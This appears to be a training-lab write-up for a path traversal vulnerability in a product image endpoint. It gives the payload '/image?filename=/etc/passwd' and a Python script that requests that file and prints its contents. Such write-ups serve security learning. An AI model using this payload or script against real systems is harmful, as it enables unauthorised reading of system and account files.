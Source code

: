 This lab contains a path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

**Goal:** Exploit a path traversal vulnerability in the display of product images. Retrieve the contents of the `/etc/passwd` file.

**Analysis:** The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory, meaning i can replace the image file `/image?filename=56.jpg` with `/image?filename=/etc/passwd` and it will retrieve it. 

![[Pasted image 20240827164208.png]]

**Payload:** 

```php
/image?filename=/etc/passwd
```

**Script:**

```python
#!/usr/bin/python3

import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def path_attack(url):
	get_file = url + '/image?filename=/etc/passwd'
	r = requests.get(get_file, verify=False, proxies=proxies)
	if 'root' in r.text:
		print('(+) Exploit worked!\n(+) Printing contents of /etc/passwd')
		print(r.text)

def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s <URL>' % sys.argv[0])
		print('(+) Example: %s www.example.com' % sys.argv[0])
		sys.exit(-1)
		
	url = sys.argv[1]
	path_attack(url)

if __name__ == '__main__':
	main()
```


